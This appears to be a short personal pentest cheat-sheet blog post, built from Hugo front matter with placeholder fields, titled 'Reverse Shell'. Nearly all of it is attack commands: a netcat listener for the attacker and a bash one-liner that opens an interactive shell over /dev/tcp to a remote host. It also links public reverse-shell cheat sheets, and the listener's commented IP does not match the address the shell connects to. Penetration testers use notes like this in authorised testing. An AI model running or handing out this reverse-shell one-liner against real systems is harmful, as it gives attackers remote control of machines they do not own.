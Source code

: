 ```yaml
---
title: Reverse Shell
date: 2022-10-18T11:30:30Z
tags:
- pentest
categories:
- cheatsheet
author: Me
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: Desc Text.
disableHLJS: false
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
  image: "<image path/url>"
  alt: "<alt text>"
  caption: "<text>"
  relative: false
  hidden: true

---
```

## Start a listener on attacker:
```
nc -lp 9001
# ip=10.10.10.10
# port=9001
```

## Run a shell on target:
* bash
```
bash -i >& /dev/tcp/192.168.1.10/9001 0>&1
```

## References
* https://www.revshells.com/
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
